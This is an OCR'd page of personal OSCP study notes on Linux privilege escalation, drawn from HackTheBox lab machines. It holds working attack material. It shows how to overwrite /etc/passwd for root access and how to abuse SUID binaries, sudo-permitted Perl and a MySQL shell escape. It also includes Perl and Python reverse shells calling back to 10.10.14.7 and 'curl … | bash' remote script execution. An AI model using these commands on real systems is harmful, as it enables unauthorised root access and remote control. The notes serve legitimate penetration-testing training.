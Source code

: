 ```yaml
---
title: Linux Privilege Escalation
parent: OSCP
grand_parent: Certifications
nav_order: 4
---
```


# Linux Privilege Escalation
privesc_linux
UPGRADE SHELL python -c ‘import pty; pty.spawn("bin/bash")’
ctrl-Z
stty raw -echo
fg
Enumerate and run this:
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null
”_ If you don’t see a compiler such as GCC, you know it’s probably not going to be a kernel exploit. So enumerate and use
LinEnum.sh or Linuxprivescchecker.py. I found on one of my 20 point boxes it only perl and wget, so I was looking for priv esc
related to perl. The other 20 pointer had GCC, so I googled a linux exploit, 2 minutes later I am root.
BY HAND 1. sudo -l # view users rights has to be tried first for all linux privesc
2. rw on /etc/passwd → echo root::0:0:root:/root:/bin/bash > /etc/passwd → su
3. bash_history
4. find / -perm -4000 2>/dev/null # SUID files - detect by date?
5. Do all cronjobs look normal and do you have write access to any??
6. ps aux | grep root == john mysql -u root
7. If webserver poke around database
8. Look at original nmap scan for other shite running (nmap localhost)
sudo -u anotheruser command run sommand as another user
sudo -u scriptmanager bash -i #run shell as user scriptmanager
which awk perl python ruby gcc cc vi vim nmap find netcat nc wget curl tftp ftp 2>/dev/null
DOWNLOAD ALL LINUX ENUM FILES TO VICTIM cd /opt/linux_privesc
python -m SimpleHTTPServer
wget -r 10.10.14.7:8000
curl 10.10.14.7/LinEnum | bash # pipe into bash
or save to victim
linEnum.sh has a -t flag for thorough!!
make a thorough linEnum script bu putting thorough = 1 at top of script
KERNEL EXPLOITS i686 = 32bit
x86_64 = 64bit
when u pop a box what usernames and info did you get on the way in that may help
Get Linux version from Apache version etc... Launchpad?
linux exploit suggester
the exploit will give linux version + exploitable file
check your own file version
eg
ldd --version
cat /etc/lsb-release
Can ignore warnings on gcc compiles
LINUX VERSIONS
ubuntu 2.2.22 apache → launchpad link → prcise
Google ubuntu releases wiki.ubuntu.com/Releases → End of Lifes?
nmap --script vuln -oA nmap/vulns 10.10.10.79
Freebsd uses csh shell
LINUX PASSWORDS unshadow passwd.txt shadow.txt > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
42/67
WRITABLE /etc/passwd (Bank) Create encrypted password and place in passwd file
openssl passwd --help
openssl passwd dan
dfVJQnZOraiAw
openssl passwd -1 dan # specifies md5
vi /etc/passwd
replace
root:x:0:0:root:/root:/bin/bash
with
root:dfVJQnZOraiAw:0:0:root:/root:/bin/bash
su root
Password: dan
SUID (Bank) find / -perm -4000 2>/dev/null
/var/htb/bin/emergency
$ ls -la /var/htb/bin/emergency
-rwsr-xr-x 1 root root 112204 Jun 14 2017 /var/htb/bin/emergency
Just run the binary and gain root
/var/htb/bin/emergency
That was simple (will often need to edit binary)
ESCALATE VIA MYSQL ROOT credentials → go into mysql as root then drop ito a shell to pwn box
mysql -u root -p
Enter password: !@#S3cur3P4ssw0rd!@#
Create shell in mysql
\! /bin/sh
DIDNT ESCALATE
sudo -l sudo -l
User shelly may run the following commands on Shocker:
(root) NOPASSWD: /usr/bin/perl
Get the pentest monkey perl shell
Important to add sudo before
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.7";
$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
A cronjob (of sorts) test.py owned by us (we are scriptmanager). But note the output (test.txt) is root.
Goody gumdrops.
Put in a new test.py.
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",
4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
Open listener on KALI: nc -nlvp 4444
Serve it it to victim's scripts folder
Let the cronjob run → shell
43/67
RESTRICTED BASH To view what we CAN run
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
ls /home/monitor/bin
ls most red rnano
ls -la /home/monitor/app-dev
total 2236
drwxrwx--- 3 app-dev monitor 4096 May 3 2018 .
drwxr-x--- 5 root monitor 4096 Jul 24 2018 ..
-rwxrwx--- 1 app-dev monitor 13704 Jul 24 2018 logMonitor
rwx-able if we are in monitor group?
rnano /etc/group
monitor:x:1001: ← yes
We will copy /bin/bash and paste it over logMonitor
red /bin/bash ← restricted edit
1099016
w app-dev/logMonitor <- write to logMonitorcd ~
1099016
q
logMonitor
tmp.tUiSCVyRTR: dircolors: command not found
We now have /bin/bash BUT we can still only do whats in our path. BUT... we can echo a normal path (from kali) and set it on
Waldo
ON KALI
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/go/bin:/root/go-workspace/bin
ON WALDO
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/go/bin:/root/go-workspace/bin
GET LINENUM WITH CURL
root@kali:/opt/linux_privesc# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
curl 10.10.14.11:8000/linEnumThorough.sh | bash
[+] Files with POSIX capabilities set:
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei
[+] Capabilities associated with the current user:
cap_dac_read_search ←
[+] Permissions of files with the same capabilities associated with the current user:
-rwxr-xr-x 1 root root 39752 Feb 22 2017 /usr/bin/tac
man capabilities
CAP_DAC_READ_SEARCH
* Bypass file read permission checks and directory read and execute permission checks;